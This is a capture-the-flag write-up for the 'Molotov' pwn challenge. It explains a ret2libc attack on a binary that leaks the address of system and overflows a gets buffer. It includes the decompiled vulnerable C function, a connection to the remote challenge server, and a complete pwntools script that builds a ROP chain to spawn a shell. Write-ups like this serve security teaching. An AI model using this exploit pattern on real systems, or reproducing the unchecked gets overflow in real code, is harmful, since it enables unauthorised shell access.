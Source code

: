 ```yaml
---
description: A ret2libc with a given leak
---
```


# Molotov

## ‌Overview

Running the binary prints and hex value and prompts for input:

```text
$ ./molotov
f7d9ef00
Input :
```

We can definitely cause it to segfault:

```text
$ python3 -c 'print("A"*300)' | ./molotov
f7d61f00
Input : 
Segmentation fault
```

So let's work out what this value is and how we can use it.‌

## Decompilation <a id="decompilation"></a>

‌

We chuck the binary into GHidra and get a simple disassembly. `main` calls `vuln` and does almost nothing else. `vuln`, however, has _some_ interesting stuff:

```c
int vuln(void){
    char buffer [24];
    
    printf("%x\n",system);
    puts("Input : ");
    
    gets(buffer);
    
    return 0;
}
```

‌

It prints the address of `system`! Awesome.‌

Let's run the binary on the remote serevr to leak the libc version.

```text
$ nc 54.210.217.206 1240
f7d3c8b0
Input :
```

‌

So now we essentially have a libc leak, we head over to [find the libc version](https://libc.blukat.me/).

![There are 4 matches&#x200C;](https://gblobscdn.gitbook.com/assets%2F-MFC6wsr3fMfJKJtYtmn%2F-MG4TH0ZQ5tkG_qg_28t%2F-MG4_uje-dVyvfpG0wn5%2Fimage.png?alt=media&token=fd4a0efa-27f3-47fc-8d8c-8de6e2eed2d3)

Annoyingly, there are 4 possible libc versions, and we can only get it from trial and error. Aside from the libc version itself, the exploit is quite simple - subtract the offset of `system` from the leaked address to get `libc` base, then use that to get the location of `/bin/sh`.

The correct libc version is `2.30-0ubuntu2.1_i386`.‌

## Exploitation <a id="exploitation"></a>

```python
from pwn import *

elf = context.binary = ELF('./molotov')

if args.REMOTE:
    libc = ELF('./libc-remote.so')
    p = remote('54.210.217.206', 1240)
else:
    libc = elf.libc
    p = process()

addr = int(p.recvline(), 16)
p.clean()

libc.address = addr - libc.sym['system']

rop = ROP(libc)
rop.raw('A' * 32)
rop.system(next(libc.search(b'/bin/sh\x00')))

p.sendline(rop.chain())
p.interactive()
```


